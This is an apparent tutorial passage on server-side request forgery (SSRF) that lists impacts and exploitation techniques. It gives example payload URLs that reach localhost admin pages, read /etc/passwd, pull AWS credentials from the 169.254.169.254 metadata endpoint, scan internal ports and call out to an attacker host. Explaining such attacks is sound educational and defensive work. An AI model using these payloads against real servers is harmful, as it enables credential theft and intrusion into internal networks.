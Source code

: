     - Impact: Exposing cloud instance metadata, which can reveal sensitive information like instance details or cloud service credentials.

## Real-World Impacts of SSRF
1. Accessing Internal Resources
    - Description: SSRF can allow attackers to access internal resources that are not meant to be exposed to the public, such as administrative interfaces, databases, or internal APIs.
    - Example:
        - An attacker can access an internal management portal:
        - ```http://example.com/fetch?url=http://localhost/admin```
2. Exfiltrating Sensitive Data
    - Description: Attackers can use SSRF to request sensitive internal files or data, such as system credentials, logs, or configuration files.
    - Example:
        - Access internal sensitive files like:
        - ```http://example.com/fetch?url=file:///etc/passwd```
3. Exploiting Cloud Metadata Services
    - Description: Attackers can use SSRF to retrieve cloud provider metadata, such as credentials or instance information.
    - Example:
        - Access AWS credentials through the metadata API:
        - ```http://example.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/```
4. Pivoting to Internal Services
    - Description: Once an attacker has access to an internal service via SSRF, they can use it to pivot and explore further into the internal network.
    - Example:
        - An attacker can discover internal services running on private IPs:
        - ```http://example.com/fetch?url=http://192.168.1.10:8080```
5. Performing Denial of Service (DoS)
    - Description: SSRF can be exploited to target internal or external services with a flood of requests, causing performance degradation or service interruption.
    - Example:
        - Flood internal services with requests, causing them to overload.

## Exploitation Techniques
1. Basic SSRF Exploitation
    - Technique: Modify user-controllable input (e.g., a URL parameter) to point to sensitive internal services or files.
    - Example:
        - ```http://example.com/fetch?url=http://127.0.0.1/admin```
2. Exploiting Cloud Metadata Services
    - Technique: Use SSRF to request cloud instance metadata endpoints that can expose sensitive information, such as access credentials or configuration details.
    - Example (AWS):
        - http://example.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
3. Port Scanning Internal Networks
    - Technique: Use SSRF to perform port scans of internal networks by testing various IP addresses and ports to identify services running on them.
    - Example:
        - Scanning an internal service:
        - ```http://example.com/fetch?url=http://192.168.1.10:8080```
4. Blind SSRF
    - Technique: Even without seeing the server’s response, attackers can perform actions by observing side effects, such as error messages or response time.
    - Example:
        - Triggering a request that leads to an external service to check for network activity or changes:
        - ```http://example.com/fetch?url=http://attacker.com```
